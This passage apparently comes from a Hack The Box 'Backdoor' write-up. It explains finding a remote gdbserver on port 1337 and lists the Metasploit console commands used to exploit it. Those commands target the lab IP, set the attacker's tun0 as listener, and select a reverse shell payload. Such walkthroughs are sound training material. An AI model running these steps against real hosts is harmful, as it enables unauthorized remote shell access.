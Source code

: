 ![Burpsuite Using Number Iterator Payload](/assets/images/HTB/backdoor/burp2-2.jpg)

## EXPLOIT IT

Eventually, you find that gdb is running on port 1337 via a certain /proc/PID/cmdline return and there are some shotty hit/miss online exploits to abuse this. There is one in metasploit if you search *gdb* or there is a manual one [here](https://book.hacktricks.xyz/pentesting/pentesting-remote-gdbserver).  
I went the Metasploit route, here are the commands for kali linux:

```bash
msfconsole
search gdb
use 0
show options
set rhosts 10.10.11.125
set rport 1337
set lhost tun0
set target 1
show payloads # This will show you all available payloads, staged and unstaged. Normally I just try every reverse shell option until one of them works. 
set payload 18
run #(or type *exploit* to look really cool)
```
Read more about payloads from OffSec reguarding Metasploit [here](https://www.offensive-security.com/metasploit-unleashed/payload-types/).
